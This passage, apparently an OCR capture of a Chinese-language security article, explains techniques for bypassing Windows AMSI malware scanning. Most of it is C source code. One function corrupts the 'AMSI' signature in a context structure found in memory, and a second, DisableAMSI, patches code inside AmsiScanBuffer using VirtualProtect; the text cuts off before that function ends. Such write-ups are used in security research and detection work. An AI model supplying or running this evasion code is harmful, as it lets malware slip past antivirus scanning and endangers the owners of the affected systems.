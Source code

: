 ```
            if ((mbi.State   == MEM_COMMIT    ) &&
                (mbi.Type    == MEM_PRIVATE   ) && 
                (mbi.Protect == PAGE_READWRITE))
            {
              ctx = (_PHAMSICONTEXT)ptr;
              // check if it contains the signature 
              if(ctx->Signature == 0x49534D41) {
                // corrupt it
                ctx->Signature++;
                disabled = TRUE;
                break;
              }
            }
          }
        }
      }
    }
    return disabled;
}
```

　第二种绕过 AMSI 机制的方法（代码补丁方法 1）
---------------------------

CyberArk 建议使用 2 条指令，即 xor edi，edi，nop 来修改 AmsiScanBuffer。如果要 hook 该函数的话，可以借助 Length Disassembler Engine（LDE）来计算在跳转到备用函数进行覆盖之前要保存的 prolog 字节的正确数量。由于传递给该函数的 AMSI 上下文已经过验证，并且其中一个测试要求签名为 “AMSI”，因此，您可以找到该立即值，并将其更改为其他值。在下面的示例中，我们将通过代码来破坏相应的签名，而不是像 Matt Graeber 那样使用上下文 / 数据来破坏相应的签名。

```
BOOL DisableAMSI(VOID) {
    HMODULE        dll;
    PBYTE          cs;
    DWORD          i, op, t;
    BOOL           disabled = FALSE;
    _PHAMSICONTEXT ctx;

    // load AMSI library
    dll = LoadLibraryExA(
      "amsi", NULL, 
      LOAD_LIBRARY_SEARCH_SYSTEM32);

    if(dll == NULL) {
      return FALSE;
    }
    // resolve address of function to patch
    cs = (PBYTE)GetProcAddress(dll, "AmsiScanBuffer");

    // scan for signature
    for(i=0;;i++) {
      ctx = (_PHAMSICONTEXT)&cs[i];
      // is it "AMSI"?
      if(ctx->Signature == 0x49534D41) {
        // set page protection for write access
        VirtualProtect(cs, sizeof(ULONG_PTR), 
          PAGE_EXECUTE_READWRITE, &op);

        // change signature
        ctx->Signature++;

        // set page back to original protection
        VirtualProtect(cs, sizeof(ULONG_PTR), op, &t);
        disabled = TRUE;
        break;
      }
```